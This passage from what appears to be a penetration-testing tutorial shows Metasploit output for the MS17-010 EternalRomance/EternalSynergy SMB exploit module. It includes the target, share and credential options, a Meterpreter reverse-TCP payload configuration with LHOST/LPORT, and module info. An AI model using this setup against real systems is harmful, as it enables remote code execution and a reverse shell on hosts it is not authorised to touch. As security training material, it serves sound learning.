 ```shell-session
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                                                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Here we see how helpful the `No.` tags can be. Because now, we do not have to type the whole path but only the number assigned to the Metasploit module in our search. We can use the command `info` after selecting the module if we want to know something more about the module. This will give us a series of information that can be important for us.

#### MSF - Module Information

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > info

       Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
     Module: exploit/windows/smb/ms17_010_psexec
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2017-03-14

Provided by:
  sleepya
```